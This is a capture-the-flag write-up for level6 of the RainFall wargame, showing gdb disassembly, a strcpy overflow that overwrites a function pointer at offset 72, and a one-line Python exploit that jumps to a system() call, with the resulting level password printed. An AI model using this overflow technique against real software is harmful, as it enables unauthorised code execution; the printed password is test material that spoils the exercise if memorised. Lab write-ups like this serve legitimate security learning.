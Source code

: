 # Level6

## Exploring the binary
```shell
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 phantom
Nope
```
The binary expects a solitary argument, presumed to represent the required password for further progression.

## GDB analysis
```shell
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:		push   %ebp
   0x0804847d <+1>:		mov    %esp,%ebp
   0x0804847f <+3>:		and    $0xfffffff0,%esp
   0x08048482 <+6>:		sub    $0x20,%esp
   0x08048485 <+9>:		movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
```
The main function invokes <code>strcpy()</code> and <code>malloc()</code> during execution. As no other functions are called, we list all functions to identify any unused ones.
```shell
(gdb) i func
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```
We decide to inspect function <code>n()</code>:
```shell
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:		push   %ebp
   0x08048455 <+1>:		mov    %esp,%ebp
   0x08048457 <+3>:		sub    $0x18,%esp
   0x0804845a <+6>:		movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
```
As well as function <code>m()</code>:
``` shell
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:		push   %ebp
   0x08048469 <+1>:		mov    %esp,%ebp
   0x0804846b <+3>:		sub    $0x18,%esp
   0x0804846e <+6>:		movl   $0x80485d1,(%esp)
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
```

We observe that the function <code>n()</code> invokes <code>system()</code>, indicating that it likely provides us with the password upon execution.

## buffer overflow
We observed that <code>main()</code> utilizes <code>strcpy()</code>, a function known to be vulnerable to <code>buffer overflow</code> attacks. Consequently, we proceed as previously by determining the buffer offset value, which is determined to be 72. With this information, we can exploit the vulnerability to call the function <code>n()</code> by passing its address (<code>0x08048454</code>).

## Exploit
``` shell
level6@RainFall:~$ ./level6 $(python -c 'print "F" * 72 + "\x08\x04\x84\x54"[::-1]')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
